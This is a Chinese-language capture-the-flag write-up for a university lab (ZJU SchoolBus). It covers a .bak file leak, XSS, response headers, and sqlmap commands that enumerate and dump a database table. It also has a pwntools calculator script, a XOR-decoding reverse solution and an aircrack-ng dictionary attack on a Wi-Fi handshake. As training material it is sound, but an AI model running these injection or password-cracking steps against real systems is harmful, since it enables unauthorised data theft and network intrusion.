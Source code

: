 # ZJU SchoolBus Writeup

## Web

### EasyWeb

#### 第一关（.bak）

查看.bak文件

http://10.214.160.13:10000/1.php.bak

```html
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
  <meta http-equiv="Content-Language" content="zh-CN" />
</head>
<body>
<div align="center">
<h1>欢迎来到第一关</h1>
</div>
<!-- 删除1.php.bak -->
<a href="the2nd.php">进入第二关</a>
</body>
</html>
```

#### 第二关（XSS）

跨脚本漏洞XSS

[相关阅读](https://tech.meituan.com/2018/09/27/fe-security.html)

目前使用chrome破解失败了

好像firefox直接禁掉弹窗可以绕过去

#### 第三关（消息头）

网络$\to$ disiguan.php$\to$ Headers$\to$ Response Headers(wozaizheli.php)

#### 第四关

删掉选中行的display得到flag

![image-20211004085706027](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211004085706027.png)



### SQLinjection

在后台数据库中找一个名叫flag_is_here的表里的flag

#### SQLMAP的使用

[基本操作](https://www.jianshu.com/p/63becdb8c2f8)

思路：获取数据库名称，得知所需要的表名，获取列名，获取指定列名字段

```shell
#判断url的数据库是否存在注入点
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0
```

![image-20211003212834051](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003212834051.png)

```shell
#枚举DBMS所有数据库
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 --dbs
```

![image-20211003212932141](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003212932141.png)

```shell
#枚举数据库中所有的数据表
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 --tables
```

![image-20211003220358984](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220358984.png)

```shell
#枚举数据库中指定数据表中的所有字段
python3 sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 -T flag_is_here --column
```

![image-20211003220016540](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220016540.png)

```shell
#导出数据表中的列字段进行保存
sqlmap.py -u http://10.214.160.13:10002/?questionid=0 -D aaa_web2 -T flag_is_here -C "flag" --dump
```

![image-20211003220044730](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20211003220044730.png)

## PPC

### calculator

[基本操作](https://ce2191210307.gitee.io/2020/06/03/pwntools%E4%BD%BF%E7%94%A8%E4%BB%A5%E5%8F%8Apwn%E5%85%A5%E9%97%A8/)

#### Description

编程是最重要的技能，没有之一 
我就不信你的手速足够快hhh 
nc 10.214.160.13 11002 
nc是Linux自带的工具，用于与服务器建立socket连接

#### Solution

[入门链接](https://ce2191210307.gitee.io/2020/06/03/pwntools%E4%BD%BF%E7%94%A8%E4%BB%A5%E5%8F%8Apwn%E5%85%A5%E9%97%A8/)

注意bytes类和string类的区别与相互转换

```python
from pwn import *
p=remote('10.214.160.13',11002)
p.recvlines(7)
for i in range(10):
    s=p.recvuntil('=')
    s=bytes.decode(s)
    if i == 0:
        s=s[:-2]
    else:
        s=s[15:-2]
    sum=eval(s) 
    print(s)
    print(sum)
    sum = str.encode(str(sum))
    p.sendline(sum)
s=p.recvlines(4)
print(s)
```

### WUD1T1

大概就是根据题面给出的信息确定身份证的某几位，其他的暴力枚举

#### md5加密

```python
import hashlib
def get_md5(s):
	md = hashlib.md5()
	md.update(s.encode('utf-8'))
	return md.hexdigest()
```

## Reverse

### Reverse1

一道简单的逆向题

flag加密存于内存区内，与Ch异或后取出值

```cpp
#include<stdio.h>
#include<string>
#include<iostream>
using namespace std;
void int2str(const int &int_temp,string &string_temp)  
{  
    char s;    
    s = (char)int_temp; 
    string_temp=s;  
}  
int main(){
    int x;
    string s="";
    while(1){
        scanf("%x",&x);
        x^=12;
        printf("%d %c\n",x, (char)x);
        string c;
        int2str(x,c);
        s+=c;
        cout<<s<<endl;
    }
} 
```

![image-20210929194118523](https://zerokei-imgurl.oss-cn-hangzhou.aliyuncs.com/img/image-20210929194118523.png)



## MISC

### WUD1T2

#### aircrack-ng撞库

题目已给出握手包，直接用现有的字典库破解就行

```shell
aircrack-ng -w password.txt crack_zju-01.cap #password.txt为字典库
```

#### vim .swp文件复原

```shell
vim -r 复原文件名（不带.swp）
```

